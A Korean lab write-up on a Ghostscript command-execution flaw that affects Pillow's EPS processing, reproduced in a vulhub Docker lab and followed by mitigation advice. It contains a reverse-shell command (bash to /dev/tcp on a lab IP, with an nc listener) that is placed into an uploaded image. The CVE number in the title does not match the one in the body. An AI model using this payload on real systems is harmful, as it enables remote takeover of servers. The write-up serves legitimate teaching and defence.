


# PIL-CVE-2017-7529

**Contributors**

-   [김정훈(@wjdgnsdl213)](https://github.com/wjdgnsdl213)

<br/>

## 요약
- `Python`에서 이미지 처리를 담당하는 `PIL(Pillow)` 모듈은 내부적으로 `GhostScript`를 호출하여 작업을 처리함. 
- 이 과정에서 `GhostScript`의 취약점으로 인해 발생하는 보안 이슈에 `PIL(Pillow)` 또한 영향을 받게 됨. 
- 특히, 이 취약점은 원격에서 악의적인 명령을 실행할 수 있는 문제를 일으키며, 이를 통해 공격자는 취약한 시스템을 원격 제어할 수 있는 권한을 획득할 수 있음.

## 이미지 인식 방법
- PIL은 이미지의 종류를 식별하기 위해 `'Magic Bytes'`라는 방식을 사용. 특히, 이미지가 EPS 형식 (헤더는 '%!PS')인 경우, PIL은 `EpsImagePlugin.py` 모듈로 처리.

- 이 모듈 내에서, `PIL`은 `gs` 명령어를 호출하여 `GhostScript`로 이미지를 처리.
  ```python
  command = [
    "gs",                  # GhostScript command
    "-q",                  # quiet mode
    "-g%dx%d" % size,      # set output geometry (pixels)
    "-r%fx%f" % res,       # set input DPI (dots per inch)
    "-dBATCH",             # exit after processing
    "-dNOPAUSE",           # don't pause between pages
    "-dSAFER",             # safe mode
    "-sDEVICE=ppmraw",     # ppm driver
    "-sOutputFile=%s" % outfile,  # output file
    "-c", "%d %d translate" % (-bbox[0], -bbox[1]),  # adjust for image origin
    "-f", infile,           # input file
  ]

  # GhostScript를 사용하여 이미지를 변환하는 코드
  try:
      with open(os.devnull, 'wb') as devnull:
          subprocess.check_call(command, stdin=devnull, stdout=devnull)
      im = Image.open(outfile)
  except Exception as e:
      # handle the exception as needed
      pass
  ```

<br/>

## 환경 구성 및 실행

|구분|시스템 이름|IP 주소|
|:--:|:--------:|:-----:|
|**사용자**|Ubuntu|192.168.81.136|
|**공격자**|Kali|192.168.81.137|

<br/>

- Ubuntu에서 vulhub취약점 소스 코드를 가져온다. (Kali 에서도 가져온다.)
  
  

<br/>

- PIL-CVE-2017-8291 파일 확인
  
  

<br/>

- docker-compose up -d 명령을 실행하여 이미지를 가져온다.
  
  

<br/>

- kali로 우분투 IP의 8000번 포트로 아래 사이트에 들어간다.
  
  

<br/>


- 먼저 vi로 poc.png 파일의 코드를 확인한다. 내용은 다음과 같다.
  
  
  
  > 파일이 업로드 되면 /tmp/ 디렉토리에 aaaaa파일이 생성된다.

<br/>

- 그리고 kali에 다운받은 poc.png 파일을 업로드한다. 
  
  

  

<br/>

- docker환경에 aaaaa파일을 확인하여 취약점 존재 여부를 검증하면,

  

  tmp 디렉터리에 aaaaa 파일이 성공적으로 생성되어 취약점이 있음을 알 수 있다.

<br/>

- ### 바인드 셸 명령을 통해 root 권한 얻기

- kali에서 poc.png 파일의 코드를 다음과 같이 수정한다.
  
  `bash -c "bash -i >& /dev/tcp/192.168.32.1/8002 0>&1"`

  

- kali에서 listening port 8002를 열고 기다린다.
  
  `nc -l -p 8002`

  

- kali에서 수정한 poc.png 파일을 다시 업로드 후 리스닝 포트가 셸을 성공적으로 리바운드한다.
  
  


<br/>

## 결과

  

<br/>

## 취약점 대응 방안 및 권장 사항
- GhostScript의 버전 문제로 PIL만 업데이트해도 해결되지 않으며, pip를 통한 업데이트도 효과가 없음.
  
- Python 웹 어플리케이션에서는 EPS 이미지 파일 처리가 드물지만, 처리 시 문제가 발생할 수 있음. 특히, PIL의 Image 모듈의 init() 함수 때문에 GhostScript 취약점에 노출될 수 있음.


- 특정 이미지 형식만 처리하기
  - 코드상에서, PIL은 기본적으로 init() 함수를 통해 모든 이미지 형식의 처리 방법을 로드 하려 함. 그러나 PIL은 preinit() 메서드를 제공하여 Bmp, Gif, Jpeg, Ppm, Png와 같은 일반적인 이미지 형식의 처리 방법만 로드할 수 있음. 이를 사용하면 GhostScript를 호출하여 EPS 파일을 파싱하는 것을 방지할 수 있음.
  
  ```python
  def init():
    global _initialized
    if _initialized >= 2:
        return 0

    for plugin in _plugins:
        try:
            logger.debug("Importing %s", plugin)
            __import__("PIL.%s" % plugin, globals(), locals(), [])
        except ImportError as e:
            logger.debug("Image: failed to import %s: %s", plugin, e)
  ```

- Image 모듈의 초기화 방식 변경
  - open 함수를 사용하여 이미지 파일을 열기 전에 preinit()을 사용하고, _initialized 값을 2 이상으로 설정하여, Image 모듈이 EPS 파일을 파싱하기 위해 GhostScript를 호출하는 것을 방지하도록 변경하는 것이 좋습니다.

  ```python
  Image.preinit()
  Image._initialized = 2 
  ```

## 정리

- 이 문서는 실제 보안 취약점 테스트 환경에서 진행된 공격 시나리오를 담고 있으며, `CVE-2017-8291`이라는 심각한 보안 취약점을 어떻게 이용할 수 있는지 보여줌. 
- 성공적인 공격은 시스템의 루트 제어를 가능하게 함. 
